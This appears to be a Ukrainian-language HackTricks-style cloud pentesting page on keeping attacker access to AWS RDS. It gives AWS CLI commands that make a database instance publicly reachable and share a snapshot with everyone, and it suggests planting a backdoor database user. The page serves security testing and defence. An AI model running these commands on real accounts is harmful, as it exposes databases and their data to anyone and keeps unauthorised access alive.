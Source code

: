 # AWS - RDS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Для отримання додаткової інформації див.:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Зробити інстанс публічно доступним: `rds:ModifyDBInstance`

Атакувальник з цим дозволом може **змінити існуючий RDS інстанс, щоб зробити його публічно доступним**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Створити admin user всередині DB

Атакуючий може просто **створити користувача всередині DB**, тому навіть якщо master users password буде змінено, він **не втратить доступ** до бази даних.

### Зробити snapshot публічним
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}

